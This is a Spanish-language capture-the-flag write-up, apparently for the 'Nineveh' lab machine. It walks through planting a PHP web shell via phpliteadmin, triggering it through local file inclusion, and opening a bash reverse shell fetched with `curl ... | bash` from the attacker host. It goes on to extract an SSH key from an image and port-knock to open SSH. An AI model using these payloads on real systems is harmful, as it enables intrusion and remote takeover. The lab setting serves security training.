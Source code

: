 ## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion desde phpliteadmin {-}

1. Creamos una base de datos llamada hack.php

    ```{r, echo = FALSE, fig.cap="create hack.php database", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-hack-php.png")
    ```

    Si pinchamos el link de la hack.php database vemos que a sido creado en `/var/tmp/hack.php`

1. Creamos una tabla de una columna que contiene code PHP

    ```{r, echo = FALSE, fig.cap="create table test", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-create-table.png")
    ```

1. Entramos un comando PHP en la tabla

    ```{r, echo = FALSE, fig.cap="insert php command", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-insert-command.png")
    ```

    El comando es `<?php system($_REQUEST["cmd"]); ?>`

1. y con el uso de la LFI miramos lo que passa

    ```{r, echo = FALSE, fig.cap="phpliteadmin RCE", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-rce.png")
    ```

Ahora que tenemos posibilidades de ejecutar comandos de manera remota, vamos a tratar de ganar accesso al sistema.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un archivo *index.html* que contiene

    ```html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```

1. Lanzamos la reverse shell por la web

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../var/tmp/hack.php&cmd=curl -s 10.10.14.8|bash
    ```
    
ya hemos ganado accesso al sistema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analizamos el sistema {-}

```bash
pwd
ls -l
cd ..
ls
cd ..
ls
```

Aqui vemos que hay un directorio llamado `ssl` que contiene otro directorio `secure_notes` y como todo esto esta en `/var/www/html`
miramos en firefox lo que es. `https://10.10.10.43/secure_notes` y vemos una imagen. Como el directorio se llama secure_notes, pensamos 
directamente en steganografia y nos descargamos la image

### Analizando los bits menos significativos de la imagen {-}

```bash
steghide info nineveh.png
file nineveh.png
exiftool nineveh.png
strings nineveh.png
```

El comando strings nos muestra una key id_rsa privada y una publica del usuario amrois. Como no tenemos accesso al ssh desde fuera copiamos esta clave 
en la maquina victima y le hacemos el tratamiento de siempre

### Conexion por SSH {-}

En la maquina victima:

```bash
cd /tmp
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa amrois@localhost
```

Ya estamos conectados como amrois y podemos leer la flag.

### Otra manera de conectarnos a la maquina {-}

Si durante el analisis del sistema hubieramos ido hasta mirar los processos que estan habiertos en background, ubieramos encontrado que la utilidad
`knockd` estava lanzada.

**Knockd** es una utilidad para escuchar o lanzar Port Knocking.

```bash
ps -faux
cat /etc/knockd.conf
```

Aqui podemos ver que si Knockamos los puertos 571,290,911 se abriria el puerto 22 al exterior y si Knockeamos los puertos 911,290,571 se ceraria.

lo comprobamos desde la maquina de atacante:

```bash
nmap -p22 10.10.10.43 --open -T5 -v -n
```

Aqui vemos quel puerto 22 esta cerrado

```bash
knock 10.10.10.43 571:tcp 290:tcp 911:tcp
nmap -p22 10.10.10.43 --open -T5 -v -n
```

Aqui vemos que el puerto 22 se a abierto, y desde aqui nos podemos connectar por ssh como el usuario amrois.







